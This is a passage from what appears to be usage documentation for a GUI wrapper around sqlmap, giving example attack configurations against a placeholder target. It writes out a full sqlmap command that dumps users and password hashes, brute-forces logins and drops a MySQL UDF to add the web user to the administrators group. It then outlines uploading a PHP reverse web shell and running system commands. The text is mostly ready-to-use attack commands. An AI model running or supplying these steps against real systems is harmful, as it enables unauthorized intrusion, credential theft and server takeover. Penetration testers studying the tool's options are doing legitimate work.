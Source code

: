 **Target Information:**
- URL: `http://target.com/user.php?id=1`
- Current User: `webuser` (limited privileges)
- Goal: Escalate to `sa` or `root`

**GUI Configuration:**
```
Target Tab:
├── URL: http://target.com/user.php?id=1
└── Method: GET

Enumeration Tab:
├── Enumerate Users: ✓
├── Enumerate Privileges: ✓
├── Enumerate Password Hashes: ✓
└── Database: master (for SQL Server)

Brute Force Tab:
├── Brute Force Login: ✓
├── Common Usernames: ✓
├── Common Passwords: ✓
├── Threads: 2
├── Delay: 1
└── Dictionary File: ./passwords/rockyou.txt

UDF Tab:
├── UDF Drop: ✓
├── Shared Library: /path/to/lib_mysqludf_sys.so
├── UDF Exec: sys_exec
├── UDF Args: 'net localgroup administrators webuser /add'
└── DBMS: MySQL
```

**Generated Command:**
```bash
sqlmap -u "http://target.com/user.php?id=1" --users --privileges --passwords -D master --brute-force --common-user --common-pass --threads=2 --delay=1 --dict=./passwords/rockyou.txt --udf-drop --shared-lib=/path/to/lib_mysqludf_sys.so --udf-exec=sys_exec --udf-args='net localgroup administrators webuser /add' --dbms=mysql
```

## 📁 File System and OS Access

### Example 11: Web Shell Upload and Execution
**Scenario:** Upload web shell and execute system commands

**Target Information:**
- URL: `http://target.com/upload.php`
- Upload Directory: `/var/www/html/uploads/`
- Web Shell: PHP reverse shell

**GUI Configuration:**
```
Target Tab:
├── URL: http://target.com/upload.php
├── Method: POST
└── Data: file=/path/to/shell.php&upload=Upload

File System Tab:
├── Write Local File: ./webshell.php
├── Destination: /var/www/html/uploads/shell.php
└── Check File: /var/www/html/uploads/shell.php

OS Access Tab:
├── OS Command: whoami && id && uname -a
```
